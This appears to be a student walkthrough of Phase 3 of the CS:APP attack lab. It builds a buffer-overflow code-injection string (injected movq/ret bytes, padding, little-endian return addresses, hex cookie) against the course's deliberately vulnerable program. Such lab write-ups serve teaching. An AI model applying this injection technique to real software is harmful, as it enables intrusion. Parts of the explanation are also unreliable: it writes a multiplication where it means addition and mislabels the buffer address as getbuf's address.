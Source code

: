 ### **Phase 3** 

Phase 2 and 3 are similar but Phase 3 is calling touch3 and you have to pass your cookie as a string.

First, find the addresses of **getbuf** and **touch3**

Getbuf Address: ```0x5553a860```

Touch3 Address: ```0x401e6b```

We need to create the movq instruction similar to **phase2**. However, instead of entering the address of the cookie, we need to enter the address of **getbuf** and add **0x28**.

We add 0x28 because we are adding our buffer, the 8 bytes of %rsp, and the 8 bytes for touch3.

```0x18 + 8 + 8 = 0x28 ```

Add 0x28 to the return address of **getbuf**.

```
0x5553a860 * 0x28 = 0x5553a888
```

Now to construct our attack

1. Add the movq instruct we just made + c3
    * ```48 c7 c7 88 a8 53 55 c3```
2. Add padding for the remaining buffer
3. Add the return address of **getbuf**, in little-endian
4. Add the return address of **touch3**, in little-endian
5. Add the hex translation of your cookie

It should look something like this
```
/* movq location of cookie to rdi and retq */
/* 0x5553a888 */
48 c7 c7 88 a8 53 55 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* Ret address of getbuf:0x5553a860 */
60 a8 53 55 00 00 00 00

/* Ret address of touch3:0x401e6b */ 
6b 1e 40 00 00 00 00 00

/* Hex translation of cookie: 0x33f72ca5 */
33 33 66 37 32 63 61 35 00 
```

Congrats, Phase 3 is complete.